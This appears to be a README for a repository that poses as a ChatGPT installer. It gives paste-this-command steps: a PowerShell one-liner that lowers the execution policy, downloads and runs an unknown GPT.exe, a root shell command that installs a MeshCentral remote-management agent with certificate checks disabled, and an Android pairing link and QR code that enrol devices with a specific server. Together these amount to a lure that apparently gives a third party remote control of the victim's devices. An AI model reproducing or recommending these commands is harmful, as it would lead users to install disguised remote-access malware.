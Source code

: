 # Install  win x64 
# powerhsell
Set-ExecutionPolicy RemoteSigned -Force;$Url = 'https://github.com/chatgptopenai9001/Chat/raw/main/GPT.exe';[Net.ServicePointManager]::SecurityProtocol = "tls12, tls11, tls";$ProgressPreference = 'SilentlyContinue';;Invoke-WebRequest $Url -OutFile GPT.exe;.\GPT.exe -fullinstall;




# Install Linux To install, cut and paste the following command in a root terminal.
(wget "https://meshcentral.com/meshagents?script=1" --no-check-certificate -O ./meshinstall.sh || wget "https://meshcentral.com/meshagents?script=1" --no-proxy --no-check-certificate -O ./meshinstall.sh) && chmod 755 ./meshinstall.sh && sudo ./meshinstall.sh https://meshcentral.com 'MSXhPo7f7M@BJIC2B5gdqhaNYLxWzlFhUgs$ad3oWfspVm9lkdrKJBr9mTSZWj9o@5LXloANFst63NRxJWvgpG5d1osevy65UMN5pyUFQ1GAjKBX6cO5uSW4ckLWf77idU7KKByfCBovLsxpophrcpw@df3h3g=='

# Install to Android 
Download the agent software using the Google Play store or APK file, install it and use the QR code on the right or the pairing link below to setup your device on this server.

![Mã QR Cho Android](https://github.com/chatgptopenai9001/Chat/blob/main/Screenshot%202023-03-10%20163247.png)

Google Play Store: https://play.google.com/store/apps/details?id=com.meshcentral.agent2

Android APK Download : https://info.meshcentral.com/downloads/MeshCentral2/meshcentral-agent.apk

Server Pairing Link : mc://meshcentral.com,0BsEY8DJ442BJU97It1NrYSDAq7xhr$P8dYfT3OEbW@MjJTQHTzx6so4Nvjl0xak,ZxxG5hp9Isn3YegFsvbj9S2$Ibsk9sOwJc7A5sVjPRgzKxMRVsYYK3FPQ0p0g7aO

